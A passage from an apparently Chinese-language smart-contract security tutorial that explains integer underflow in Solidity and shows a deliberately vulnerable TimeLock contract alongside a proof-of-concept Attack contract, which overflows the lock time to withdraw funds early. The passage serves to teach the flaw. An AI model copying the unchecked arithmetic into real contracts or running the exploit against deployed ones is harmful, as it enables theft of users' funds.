 如果uint8类型的变量达到了它的最小值(0)，如果再减去一个大于0的值便会变成2^8 – 1(uint8类型的最大值)。
可以看到min - 1 = -1，超出了uint8能表示的范围，导致了减法下溢。

## 漏洞代码示例

[overflow.sol](./overflow.sol)

### 漏洞合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");
        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;
        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### POC合约

```solidity
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    receive() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        timeLock.increaseLockTime(type(uint256).max + 1 - timeLock.lockTime(address(this)));
        timeLock.withdraw();
    }
}
```
